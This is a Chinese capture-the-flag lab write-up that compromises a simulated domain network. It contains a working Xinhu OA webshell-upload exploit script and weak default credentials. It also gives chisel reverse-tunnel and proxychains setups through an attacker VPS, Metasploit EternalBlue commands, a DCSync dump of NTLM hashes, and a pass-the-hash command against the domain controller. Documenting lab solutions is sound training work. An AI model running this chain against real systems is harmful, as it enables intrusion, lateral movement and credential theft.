## 信息搜集



fscan扫一下，发现是thinkphp框架，用think的工具扫一下有没有rce



存在ThinkPHP 5.0.23 RCE，可以getshell，用蚁剑连接

## 提权



用蚁剑的虚拟终端查看下web服务权限，低权限，尝试提权



注意到该用户有mysql的root权限，可以尝试用mysql -e

[linux提权汇总](https://jimi-lab.github.io/2025/07/04/Linux%E6%8F%90%E6%9D%83-%E5%88%A9%E7%94%A8sudo%E6%8F%90%E6%9D%83%E8%B6%85%E7%BA%A7%E6%97%A0%E6%95%8C%E5%A4%A7%E6%B1%87%E6%80%BB/)

```bash
mysql -e '\! *'
\! 是mysql特殊命令，可以临时退出sql环境，执行系统命令
```



拿到了第一段flag

## 横向



发现内网的172.22网段，利用蚁剑传fscan扫一下该网段



1.21存在永恒之蓝漏洞，1.18有信呼OA，1.2是域控，先利用chisel建个隧道打1.18的信达

```bash
vps:
./chisel server --port 9998 --reverse
vps作为chesel服务端，在9998建一个反向代理等待边界机连接

边界机：
./chisel client <VPS_IP>:9998 R:0.0.0.0:9995:172.22.1.18:80
边界机将发到vps9995端口的流量转发到内网的172.22.1.18:80
```



搜集了一下，信呼OA相关的弱口令

```text
admin/admin123
diaochan/123456
```

往上有信呼OA的poc，直接拿来打

```python
# 1.php为webshell

# 需要修改以下内容：
# url_pre = 'http://<IP>/'
# 'adminuser': '<ADMINUSER_BASE64>',
# 'adminpass': '<ADMINPASS_BASE64>',

import requests

session = requests.session()
url_pre = 'http://43.128.5.23:9995/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}

r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
print(filepath)
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

[信呼oa漏洞](https://github.com/Threekiii/Awesome-POC/blob/master/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E4%BF%A1%E5%91%BCOA%20qcloudCosAction.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md)



运行poc后可以得到上传路径，用蚁剑连接上





win系统，在Administrator下找到了第二段flag，且提示我们去攻击域控

接下来准备先打1.21的永恒之蓝，这里需要配socks5代理

```bash
vps:
./chisel server --port 9991 --reverse --socks5

边界机:
./chisel client <vps_ip>:9991 R:1080:socks

kali:
sudo vim /etc/proxychains.conf

[ProxyList]
socks5 <vps_ip> 1080

配置好之后，用msf打
proxychains msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
set LPORT 4444
exploit
```

拿到1.21机器后，用minikatz获得hash

```text
meterpreter > load kiwi
meterpreter > kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   3c94d2681ef3eca75246a0fd390a5415        532480
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
1104    XIAORANG-OA01$  78fb54f937650e0876cd4013a40ac48a        4096
1108    XIAORANG-WIN7$  001d0c56308c85c9b5a8db52850e6e50        4096
```

拿到hash后，利用crackmapexec读第三段flag

```text
proxychains4 crackmapexec smb 172.22.1.2 -u administrator -H 10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```



好了

## 总结



这道题一共涉及到四台机器，首先就是1.15（下文统称边界机）的thinkphp，通过thinkphp的rce漏洞拿到该机器权限，找到了flag1

再传fscan，扫描到内网的其他机器。其中1.2是DC（域控），1.21有永恒之蓝，1.18有信呼OA的RCE。

flag2出自1.18，打该机器需要横向，这里利用chisel在边界机和我的vps搭建一个隧道，令边界机反向代理连接我的vps。将1.18代理出来。这样就可以通过vps访问到内网的1.18，进而利用公开的信呼OA脚本getshell。

flag3出自1.21，该机器有永恒之蓝的洞，发现之前的chisel搭建方式隧道太小，不方便。遂改成边界机与vps走socks5。仍是边界机反向连接vps，然后在kali配置一个proxychains，代理链是：kali —— vps —— 边界机 —— 172.22.1.21

然后就可以在kali中proxychains msfconsole打永恒之蓝。拿到1.21机器后，是没找到第三段flag的，想起来第二段flag里提示去打DC（1.2）。需要利用DCSync攻击拿到管理员的hash，然后利用PTH（hash传递）到DC（1.2）上执行读flag的命令，查到第三段flag。


